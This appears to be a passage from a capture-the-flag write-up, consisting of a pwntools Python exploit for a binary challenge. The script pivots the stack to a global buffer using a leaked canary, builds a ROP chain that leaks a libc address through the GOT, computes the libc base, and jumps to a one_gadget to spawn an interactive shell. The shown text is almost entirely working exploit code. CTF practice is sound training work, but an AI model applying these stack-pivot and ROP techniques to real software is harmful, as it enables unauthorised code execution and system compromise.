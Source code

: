 ```python

# pivoting to anu (global variable), 0x3000 is mandatory to accomodate for large buffer the calls to libc functions
pivot = elf.sym['anu'] + 0x3000
pivotPayload = flat({
    8 :[
        canary,
        pivot
    ]
}) + b'\x04\x14' # overwrite RIP to 0x401404
io.send(pivotPayload)

# ROP-ing to leak libc 
ropPayload = flat([
    elf.got['__stack_chk_fail'],
    0x0401300,                   # printf("%ld\n", canary);, but instead of canary, now its [__stack_chk_fail] - 8
    cyclic(24),
    canary,
    pivot - 0x30,
    rop.find_gadget(['leave', 'ret']).address,
])
io.send(ropPayload)

# formatting libc
puts = int(io.recvline().strip())
libc.address = puts - libc.sym['puts']

# pivot again to anu
io.send(pivotPayload)

# final payload using one_gadgets
one_gadgets = [0x50a37, 0xebcf1, 0xebcf5, 0xebcf8]
ropPayload = flat({
    40: [
        canary,
        pivot, # rbp, doesn't matter since we're on final payload
        libc.address + one_gadgets[1]
    ]
})
io.send(ropPayload)

info('canary: %#x', canary)
info('libc base address: %#x', libc.address)

# gain shell?
io.interactive()
```
{% endcode %}
